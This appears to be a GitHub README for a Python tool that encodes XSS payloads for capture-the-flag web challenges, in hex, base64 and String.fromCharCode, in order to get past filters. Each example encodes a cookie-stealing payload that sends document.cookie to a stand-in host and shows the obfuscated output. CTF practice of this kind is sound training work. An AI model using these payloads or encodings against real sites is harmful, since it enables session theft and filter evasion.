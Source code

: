 <div align="center">
  <img height="550px" src="https://user-images.githubusercontent.com/28403617/220600629-9da7b084-4fbc-4212-b10e-d395a178a7f5.svg#gh-light-mode-only">
  <img height="550px" src="https://user-images.githubusercontent.com/28403617/220600634-a43af6ba-fc67-4c47-981b-0c4e9c4aba7b.svg#gh-dark-mode-only">
</div>

## What is this?

It's a simple tool to encode payloads for ctf web challenges.

The main interest of this tool is to encode payloads for XSS vulnerabilities on ctfs challenges. It allows generating payloads with `String.fromCharCode` javascript function, raw hexa values and base64, used to bypass some filters.

## How to use it?

```bash
$ python3 enc-ow-der.py -h
usage: enc-ow-der.py [-h] -i INPUT [-b64] [-fchar] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -i INPUT, --input INPUT
                        input string
  -b64, --base-64       encode as base64
  -fchar, --from-char-code
                        output the result with fromCharCode function
  -v, --verbose         verbose
```

## Examples

#### Hexa encoding

```sh-session
python3 enc-ow-der.py -i "document.location.replace('http://example.com/'+btoa(document.cookie))"
```
```bash
\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x6c\x6f\x63\x61\x74\x69\x6f\x6e\x2e\x72\x65\x70\x6c\x61\x63\x65\x28\x27\x68\x74\x74\x70\x3a\x2f\x2f\x65\x78\x61\x6d\x70\x6c\x65\x2e\x63\x6f\x6d\x2f\x27\x2b\x62\x74\x6f\x61\x28\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x63\x6f\x6f\x6b\x69\x65\x29\x29
```

#### Base64 encoding

```sh-session
python3 enc-ow-der.py -i "document.location.replace('http://example.com/'+btoa(document.cookie))" -b64
```
```
ZG9jdW1lbnQubG9jYXRpb24ucmVwbGFjZSgnaHR0cDovL2V4YW1wbGUuY29tLycrYnRvYShkb2N1bWVudC5jb29raWUpKQ==
```

#### String.fromCharCode output
```sh-session
python3 enc-ow-der.py -i "document.location.replace('http://example.com/'+ btoa(document.cookie))" -fchar
```
```
String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,46,114,101,112,108,97,99,101,40,39,104,116,116,112,58,47,47,101,120,97,109,112,108,101,46,99,111,109,47,39,43,32,98,116,111,97,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41,41)
```

#### Base64 encoding + `String.fromCharCode` output

```sh-session
python3 enc-ow-der.py -i "document.location.replace('http://example.com/'+ btoa(document.cookie))" -fchar -b64
```
```
String.fromCharCode(90,71,57,106,100,87,49,108,98,110,81,117,98,71,57,106,89,88,82,112,98,50,52,117,99,109,86,119,98,71,70,106,90,83,103,110,97,72,82,48,99,68,111,118,76,50,86,52,89,87,49,119,98,71,85,117,89,50,57,116,76,121,99,114,73,71,74,48,98,50,69,111,90,71,57,106,100,87,49,108,98,110,81,117,89,50,57,118,97,50,108,108,75,83,107,61)
```
